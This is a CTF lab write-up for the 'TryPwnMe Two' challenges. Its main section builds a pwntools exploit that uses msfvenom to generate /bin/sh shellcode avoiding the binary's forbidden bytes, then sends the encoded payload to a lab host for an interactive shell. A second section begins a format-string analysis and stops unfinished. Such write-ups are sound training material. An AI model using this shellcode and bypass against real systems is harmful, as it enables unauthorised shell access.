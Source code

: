 # TryPwnMe Two

### TryExecMe 2
This first binary executes whatever shellcode we provide in input. <br />
![image](https://github.com/user-attachments/assets/a2bd5ffd-89d0-4fc9-b2ad-f1ab985c565c)<br />
The problem is that it calls a function called `forbidden` that checks if the shellcode is made of forbidden characters. If so, the binary prints "Forbidden spell detected!".<br />
So of course this simple script doesn't work:

    from pwn import *
    
    p = process("./tryexecme2")
    
    shellcode = shellcode = asm(shellcraft.sh())
    
    p.sendline(shellcode)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/48491203-eebf-4a7b-8235-cb92ce6fe4b6)<br />
That's because `shellcraft` obviously uses some forbidden characters, otherwise it would be too easy. So I think I need to use `msfvenom`. I analyzed the binary with IDA to find what are the bad characters, and at the end I generated the payload with msfvenom: `msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x80\x34\x7e\x0f\x04\xcd' -f python`.<br />
The final script to exploit the remote machine is:

    from pwn import *
    
    #p = process("./tryexecme2")
    
    ip = "10.10.136.230"
    port = 5002
    
    p = remote(ip,port)
    
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d"
    buf += b"\x05\xef\xff\xff\xff\x48\xbb\x1c\x2e\x8e\xb1\x27"
    buf += b"\x5c\x2f\xb9\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
    buf += b"\xff\xe2\xf4\x54\x96\xa1\xd3\x4e\x32\x00\xca\x74"
    buf += b"\x2e\x17\xe1\x73\x03\x7d\xdf\x74\x03\xed\xe5\x79"
    buf += b"\x0e\xc7\xb1\x1c\x2e\x8e\x9e\x45\x35\x41\x96\x6f"
    buf += b"\x46\x8e\xe7\x70\x08\x71\xd3\x27\x76\x81\xb4\x27"
    buf += b"\x5c\x2f\xb9"
    
    p.sendline(buf)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/16b687cf-7dfb-483b-8980-7f6e05ced814)<br />

### Not Specified 2
Checksec shows the following defense measures:<br />
![Screenshot 2025-03-25 103655](https://github.com/user-attachments/assets/193bc2cb-5209-4641-a0d1-671cac146ede)<br />
This is how IDA disassembles the binary:<br />
![image](https://github.com/user-attachments/assets/bb63c6a3-058c-4e67-9c91-652318ae4808)<br />
As you can see, the stack is 528 bytes long, but the `read` function only takes 512 bytes in input. This means that technically I can't do any buffer overflow. What I can do though is a format string exploit. <br />
TO BE CONTINUED....

### Try a Note

### Slow Server
